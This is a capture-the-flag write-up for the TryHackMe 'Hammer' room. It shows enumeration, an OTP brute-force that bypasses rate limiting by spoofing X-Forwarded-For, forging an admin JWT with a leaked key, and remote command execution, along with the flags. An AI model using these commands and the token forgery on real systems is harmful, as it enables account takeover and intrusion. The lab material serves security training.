 # Room: Hammer

## General Info
- **Room link:** [Hammer](https://tryhackme.com/room/hammer


## Description

With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?

## Provided Files / Links
- [x] Target Machine IP (10.10.249.72)

## Enumeration / Recon

- Port Enumeration:
` nmap -sV 10.10.249.72 -p- -T5`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

- Directory Enumeration

I enumerate on the port 1337:

`gobuster dir -u http://10.10.249.72:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt`

```
/javascript           (Status: 301) [Size: 324] [--> http://10.10.249.72:1337/javascript/]
/vendor               (Status: 301) [Size: 320] [--> http://10.10.249.72:1337/vendor/]
/phpmyadmin           (Status: 301) [Size: 324] [--> http://10.10.249.72:1337/phpmyadmin/]
/server-status        (Status: 403) [Size: 279]
```


`gobuster dir -u http://10.10.249.72:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-files.txt`

```
/index.php            (Status: 200) [Size: 1326]
/config.php           (Status: 200) [Size: 0]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/.htaccess            (Status: 403) [Size: 279]
/.                    (Status: 200) [Size: 1326]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/dashboard.php        (Status: 302) [Size: 0] [--> logout.php]
/.htpasswd            (Status: 403) [Size: 279]
/.htm                 (Status: 403) [Size: 279]
/.htpasswds           (Status: 403) [Size: 279]
/reset_password.php   (Status: 200) [Size: 1664]
/.htgroup             (Status: 403) [Size: 279]
/wp-forum.phps        (Status: 403) [Size: 279]
/.htaccess.bak        (Status: 403) [Size: 279]
/.htuser              (Status: 403) [Size: 279]
/.htc                 (Status: 403) [Size: 279]
/.ht                  (Status: 403) [Size: 279]
```

When visiting the index.php page (login form), I noticed a commentaire in the html:
`<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->`.

I then used ffuf to enumerate the directories with the given pattern.

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://10.10.249.72:1337/hmr_FUZZ'`

```
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 19ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 19ms]
logs                    [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 20ms]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 4349ms]
```

None of the directories/files that were enumerated with gobuster gave relevant information.

I then had a look at the /hmr_js, /hmr_css, /hmr_images and /hmr_logs, and found these relevant logs in /hmr_logs:

```
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:04:56.654321 2024] [core:error] [pid 12349:tid 139999999999995] [client 192.168.1.22:38100] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
```

Notes:
- tester@hammer.thm seems to be a valid email
- hammerthm is a user in the target machine

With the newly found email tester@hammer.thm, I then tried to brute-force the OTP in the http://10.10.249.72:1337/reset_password.php page with Burp Suite but there was a rate limit in place.

Once the request for the OTP is made, there is a counter of 180s that will redirect you to /logout.php if you don't have the right OTP.

Since there is a rate limit on this endpoint, I will be be fuzzing the "X-Forwarded-For" header to get a rate limit bypass.

First, I create a txt file containing all the possible pin numers (between 0000 and 9999):

`seq -w 0000 9999 > pins.txt `

Then I use the following ffuf command to launch the attack (after grabbing the right PHPSESSID cookie):

```
ffuf -w pins.txt -u "http://hammer.thm:1337/reset_password.php" -X “POST” -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=CookieID" -H "X-Forwarded-For: FUZZ" -H “Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -s
```

(I use the flag -fr "Invalid" to filter out the responses containing the word "Invalid").

I then get the right OTP password: 8541.

I change the password for the user tester@hammer.thm and I'm now able to log in. I find the first flag: **THM{AuthBypass3D}**.

### Logged in access

Once logged in, I have a look at the dashboard.php request in the network tab of the browser and find a JWT token:

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.Rg_nED2D4PW7maxBWCh7BrlDs7nVR6FKicY6BV6nsFk`

Using jwt.io, I find that this jwt token needs a 256 bit secret.

Using the "command" field in the web page, I type `ls` and find that there is a `188ade1.key` file available. I navigate to http://10.10.249.72:1337/188ade1.key to download the resource.

`cat 188ade1.key` => `56058354efb3daa97ebab00fabd7a7d7`

 I change the role of the user in the JWT token ("role": "admin" instead of "role": "user") and I use this key to validate the jwt signature.

 The new JWT token with the admin permission is the following:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.9uM0nkCPMrQA3sHY8Htrl5ALwn7RKYnyLmG45gjPEVM
```

The only thing left to do is now to make the POST request /execute_command.php with the JWT token with admin privileges.

I use Burp Suite with the following request:

```
POST /execute_command.php HTTP/1.1
Host: 10.10.249.72:1337
Content-Length: 39
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L2h0bWwvMTg4YWRlMS5rZXkifQ.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.9uM0nkCPMrQA3sHY8Htrl5ALwn7RKYnyLmG45gjPEVM
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Origin: http://10.10.249.72:1337
Referer: http://10.10.249.72:1337/dashboard.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=1h2f4encdgd906cqvbjtq17ehp; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzQ3NTg4NDQyLCJleHAiOjE3NDc1OTIwNDIsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJhZG1pbiJ9fQ.md9lPE3rTrqVvsJmK1lB4ixAPCTmQyBuhP-Kd6LlAEI; persistentSession=no
Connection: keep-alive

{"command":"cat /home/ubuntu/flag.txt"}
```

And I get the flag **THM{RUNANYCOMMAND1337}** in the response:

```
{"output":"THM{RUNANYCOMMAND1337}\n"}
```
